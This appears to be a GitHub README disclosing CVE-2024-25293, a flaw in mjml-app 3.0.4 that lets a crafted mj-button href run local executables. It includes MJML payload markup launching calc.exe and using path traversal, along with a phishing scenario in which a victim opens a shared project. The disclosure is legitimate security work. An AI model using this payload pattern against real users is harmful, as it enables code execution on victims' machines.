 # neteract PoC

A Proof-Of-Concept for CVE-2024-25293 vulnerability. <br><br>
mjml-app v3.0.4 was discovered to contain a remote code execution (RCE)
In this repository there is an example vulnerable application and proof-of-concept (POC) exploit of it.

As a PoC there is a python file that automates the process. 
---------------------------------------

### 1.Vunerability Overview:
 * Vulnerability Subject: Local Code Execution
 * Vulnerability Version: mjml-app 3.0.4-win
 * Attack Type: Remote Code Execution
 * Attack Component: In the 'mj-button' tag within the affected source code file, the 'href' attribute enables local code execution.
 * Reserved CVE Number: CVE-2024-25293

---------------------------------------

### 2. Vulnerability Cause:
*  mjml-app 3.0.4-win suffers from Security Misconfiguration In the 'mj-button' tag, which can result in arbitrary code execution.
* Exploit explain
  * Running local files through event tags in mjml applications poses a security threat. In addition, the code can be executed by combining Path Traversal within the application, requiring a patch.

Proof-of-concept (POC)
----------------------
**Step 1) The attacker creates an 'mj-button' with an 'href' tag and**
* **case 1) Code Execution with Path Traversal (notepad.exe)**
* **case 2) Code Execution (calc.exe)**

```html
<mjml>
  <mj-body>
    <mj-section>
      <mj-column>
        <mj-button background-color="#f45e43" color="white" href="C:\Users\EQST\Desktop\jruru\..\jruru_hacked.txt"> jruru </mj-button>
        <mj-button background-color="#f45e43" color="white" href="C:Windows/System32/calc.exe"> Code Execution </mj-button>
      </mj-column>
    </mj-section>
  </mj-body>
</mjml>
```
![mjml1](https://github.com/QnA4u/CVE/assets/131337101/862946a8-18f8-4d09-a850-6a296588780a)

**Step 2) The attacker creates the main phishing project with the following code.**
```py
<!-- header.mjml -->
<mj-section>
  <mj-column>
    <mj-text>This is a demo jruru</mj-text>
  </mj-column>
</mj-section>
<!-- main.mjml -->
<mj-include path="./index.mjml" />
```
![mjml2](https://github.com/QnA4u/CVE/assets/131337101/aaf108f9-a2d6-4e21-baf9-7f50266e5afa)

**Step 3) The victim opens the shared project and clicks the button, triggering the execution of payload(etc. calc , notepad)**
![mjml3](https://github.com/QnA4u/CVE/assets/131337101/a15a815f-94b8-4e20-b15f-a9d90c5dcdce)

---------------------------------------

### 3. Additional Information
Running exe files through href tags within an application is risky, and running files in combination with Path Traversal is a security concern. This allows phishing projects to be created and deployed to execute local files. Therefore, it is essential to modify this feature to prevent such execution.

